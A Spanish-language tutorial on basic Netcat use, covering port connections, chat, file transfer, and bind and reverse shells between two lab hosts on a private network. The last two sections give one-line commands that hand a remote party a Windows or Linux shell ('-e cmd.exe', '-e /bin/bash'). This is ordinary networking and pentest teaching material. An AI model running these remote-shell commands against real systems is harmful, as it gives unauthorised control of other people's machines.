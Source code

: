 ```yaml
---
title:    Uso básico de Netcat
authors:  Barckcode
date:     27/01/2021
---
```


Netcat es una herramienta de análisis de red que permite abrir puertos, transferir archivos, chatear, obtener una shell de un host remoto y muchas cosas mas.

**Después de esta rápida intro. Empecemos con el código!**

![programmer_gif](https://media.giphy.com/media/13HgwGsXF0aiGY/giphy.gif)

---
**🔹 Para conectarnos a un puerto de un host.**

- Ejemplo: Vamos a conectarnos al puerto 21 (FTP) de un host con IP: 192.168.0.100

 ```bash
nc -nv 192.168.0.100 21
```

---
**🔹 Para chatear desde dos hosts distintos a través de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100
  
  - host2: 192.168.0.101

En **host1** ejecutamos:

 ```bash
nc -nvlp 4444
```

En **host2** ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444
```

Desde este momento ambos equipos estarán conectados al puerto 4444 y todo lo que se escriba en uno será transmitido al otro.
La comunicación es bidireccional.

Para cortar la conexión. Basta con pulsar CTRL + C

---
**🔹 Para transferir archivos entre dos hosts a traves de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100
  
  - host2: 192.168.0.101

Desde **host1** vamos a recibir un fichero. A través del puerto 4444. Para ello ejecutamos:

 ```bash
nc -nvlp 4444 > archivo_recibido.txt
```

En **host2** vamos a enviar el fichero por medio del mismo puerto. Para ello ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444 < archivo_enviado.txt
```
---
**🔹 Bind Shell: conectarnos a la shell de un servidor por medio de un puerto**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100  ->  En este caso usaremos un Windows.
  
  - host2: 192.168.0.101  ->  En este caso será un Linux.

Desde **host1** vamos a servir la shell. A través del puerto 4444. Para ello ejecutamos:

 ```bash
nc -nvlp 4444 -e cmd.exe
```

En **host2** vamos a conectarnos al puerto indicado para tomar el control de la shell. Para ello ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444
```

En cuanto se ejecute lo anterior. Tendremos el control de la shell de **host1** (Windows). Desde **host2** (Linux).

---
**🔹 Reverse Shell: servir la shell de un servidor por medio de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts Linux:

  - host1: 192.168.0.100
  
  - host2: 192.168.0.101

Desde **host1** vamos a levantar el puerto 4444 para que este escuchando. Para ello ejecutamos:

 ```bash
nc -nvlp 4444
```

En **host2** vamos a servir una shell a través del puerto indicado. Para ello ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444 -e /bin/bash
```

En cuanto se ejecute lo anterior. Desde **host1** podremos tener el control de la shell ofrecida por **host2**. 